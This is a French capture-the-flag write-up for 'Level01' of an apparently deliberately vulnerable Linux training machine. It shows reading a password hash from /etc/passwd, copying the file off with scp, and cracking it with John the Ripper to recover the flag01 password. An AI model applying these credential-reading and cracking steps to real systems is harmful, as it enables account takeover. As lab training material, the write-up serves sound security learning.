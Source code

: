 # Level01

Qui suis-je ?

	$ id
	uid=2001(level01) gid=2001(level01) groups=2001(level01),100(users)

Ou suis-je ?

	$ pwd
	/home/user/level01

	$ ls -la
	total 12
	dr-x------ 1 level01 level01  100 Mar  5  2016 .
	d--x--x--x 1 root    users    340 Aug 30  2015 ..
	-r-x------ 1 level01 level01  220 Apr  3  2012 .bash_logout
	-r-x------ 1 level01 level01 3518 Aug 30  2015 .bashrc
	-r-x------ 1 level01 level01  675 Apr  3  2012 .profile

Mes fichiers / Les fichiers du user cible

	$ find / -user level01
	(nothing)
	$ find / -user flag01
	(nothing)

Rien

***********************************************************

Casser le mot de passe du user ?

	$ ls -l /etc/shadow
	-rw-r----- 1 root shadow 4428 Mar  6  2016 /etc/shadow
	(no permissions)

	$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 2477 Mar  5  2016 /etc/passwd
	(permissions good)

	$ cat /etc/passwd
	...
	flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
	...
	(there is one hashed password inside just for the user ... flag01)

On va download le fichier et le casser avec John The Ripper

	$ scp -P 4242 level01@127.0.0.1:/etc/passwd .

Container Docker Kali linux avec en volume le fichier passwd

	$ docker run --rm --privileged -v `pwd`:/Ressources -ti kalilinux/kali-linux-docker /bin/bash
	$ apt-get update && apt-get install john -y
	$ cd /Ressources
	$ john --show passwd
	...
	abcdefg          (flag01)
	...

On a le mot de passe

:checkered_flag:
